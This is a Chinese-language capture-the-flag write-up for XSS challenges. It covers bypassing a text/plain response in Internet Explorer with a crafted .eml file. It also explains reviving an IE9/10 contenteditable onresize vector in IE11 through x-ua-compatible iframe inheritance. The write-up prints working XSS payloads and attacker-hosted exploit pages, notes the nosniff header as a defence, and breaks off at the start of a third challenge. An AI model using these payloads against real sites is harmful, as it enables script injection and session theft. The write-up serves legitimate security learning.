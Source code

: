 MIME的题目，返回头Type为text/plain应该如何绕过

找到一个近期公布的IE 0day
https://jankopecky.net/index.php/2017/04/18/0day-textplain-considered-harmful/

利用的是email文件，里面的内容会被解析html，这里可以利用iframe来加载目标地址，这样内容就会被解析啦。

IE exp:http://ns1.rootk.pw:8080/xss/wp/9.eml

9.eml
```
TESTEML
Content-Type: text/html
Content-Transfer-Encoding: quoted-printable

=3Ciframe=20src=3D=27http=3A=2f=2fxianzhi.aliyun.com=2fxss7.php=3Furl=3Dhttp=3A=2f=2fns1.rootk.pw=3A8080=2fxss=2fwp=2f9.txt=3Fname=3D=3CHTML=3E=3Ch1=3Eit=20works=3C=2Fh1=3E=27=3E=3C=2Fiframe=3E
```

防御：这里多亏M师傅的提醒，文章中的X-Content-Type-Options: nosniff是可以防御的，相反X-Frame-Options: DENY并不能从根本去解决这个问题，这个只是防御了一种攻击方式，但是漏洞点却还在，真是留了一个大

ref: https://jankopecky.net/index.php/2017/04/18/0day-textplain-considered-harmful/


#### [xss8.php](./xss8.php)

此题想考察的是<后面还可以存在非字母形式的，空格等一些空白字符当然是不行的.

https://dev.w3.org/html5/spec-LC/parsing.html
```text
A sequence of bytes starting with: 0x3C 0x21 (ASCII '<!')
A sequence of bytes starting with: 0x3C 0x2F (ASCII '</')
A sequence of bytes starting with: 0x3C 0x3F (ASCII '<?')
```
可以看到还能以这些作为开头，在IE9、10里面有一个vector可以无交互执行js

8.txt

```
<% contenteditable onresize=alert(document.domain)>
```
现在问题就是IE11这个是无法触发的，但是可以通过x-ua-compatible设置文档兼容性，让它也能够兼容IE9、10的内容

**即便iframe内页面和父窗口即便不同域，iframe内页面也会继承父窗口的兼容模式，所以IE的一些老技巧、特性可以通过此方法去复活它.**
IE11 exp:http://ns1.rootk.pw:8080/xss/wp/8.html

8.html
```html
<meta http-equiv=x-ua-compatible content=IE=9>
<iframe id=x src="http://xianzhi.aliyun.com/xss8.php?url=http://ns1.rootk.pw:8080/xss/wp/8.txt"></iframe>
```

#### [xss9.php](./xss9.php)

代码简单，但是绝对够爽的一道题目，就是如何逃逸plaintext这个标签

我们有时候在使用浏览器的时候，也会遇到编码不同导致乱码问题，这个问题主要在于服务端和客户端之间的字符集存在差异导致的.

